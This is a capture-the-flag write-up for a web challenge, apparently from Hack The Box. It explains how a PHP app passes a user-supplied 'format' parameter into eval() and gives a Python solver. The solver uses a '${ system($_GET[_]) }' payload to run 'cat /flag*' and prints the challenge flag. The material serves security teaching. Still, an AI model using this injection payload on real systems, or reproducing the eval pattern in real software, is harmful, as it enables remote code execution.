

# [__SimPlay__](#)

### Description:
* The agency has picked up on a addictive mobile application, that predicts when someone will find love. We suspect foul play by the evil company behind this obvious scheme. We think that the company will try to have this application installed on every device in the world for mind control. Agent, we need you to infiltrate the recent website they launched and save the world.

### Objective:
* RCE

### Difficulty:
* `very easy`

### Flag:
* `HTB{3v4l_h4s_put_y0ur_3v1l_pl4ns_und3r!}`

### Challenge:

<p align='center'>
  
</p>

# [__🏭 Time Factory__](#time-factory)

On [`controllers/TimeController.php`](challenge/controllers/TimeController.js), we see that the the application expects input through `$_GET`'s `format` value, if there isn't one it defaults to `'r'` and then passes it to `TimeModel` and displays the invoked `getTime` method to the view.

```javascript
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

On [`models/TimeModel.php`](challenge/models/), the function argument then constructs a variable called `format` which is later going to be passed on to `eval()`.

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

Using the `format` GET parameter, we can escape the string context of the function argument and invoke `system()` to get rce.

<p align='center'>
  
</p>


### Solver:
```python
import requests

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

r = requests.get(HOST, params={'format': "'${ system($_GET[_]) };", '_': 'cat /flag*'})
print(r.text)
```
